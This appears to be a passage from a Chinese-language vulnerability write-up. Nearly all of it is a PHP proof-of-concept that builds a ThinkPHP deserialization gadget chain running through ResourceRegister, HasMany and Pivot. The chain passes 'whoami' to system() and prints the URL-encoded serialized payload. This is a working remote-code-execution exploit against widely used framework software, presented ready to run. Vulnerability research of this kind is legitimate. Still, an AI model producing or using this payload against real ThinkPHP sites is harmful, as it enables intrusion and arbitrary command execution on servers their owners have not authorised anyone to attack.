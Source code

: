 最终编写如下POC  
:  
```
<?php

namespace think\model {
    class Pivot {
        protected $jsonAssoc = true;

        protected $visible = ['a' => ['payload' => 'whoami']]; // visible 中必须有 $data 的 key
        protected $data = ['a' => ['payload' => 'whoami']]; // 存放的数据, payload

        protected $withAttr = ['a' => ['payload' => 'system'], 'b' => 'a']; // 函数名
        protected $json = ['a' => ['payload' => 'system'], 'b' => 'a'];
    }

    class Relation {
        protected $parent; // 某对象
        protected $localKey; // 某 isset 方法
        protected $query = '1';

        public function __construct()        {
            $this -> localKey = new Pivot();
            $this -> parent = new Pivot();
        }
    }
}

namespace think\model\relation {
    class HasMany extends \think\model\Relation {

    }
}

namespace think\route {

    class ResourceRegister {
        protected $resource;
        
        public function __construct(){
            $this -> resource = new \think\model\relation\HasMany();
        }
    }
}

namespace {
    $obj = new think\route\ResourceRegister();
    echo urlencode(serialize($obj));
}

```  
  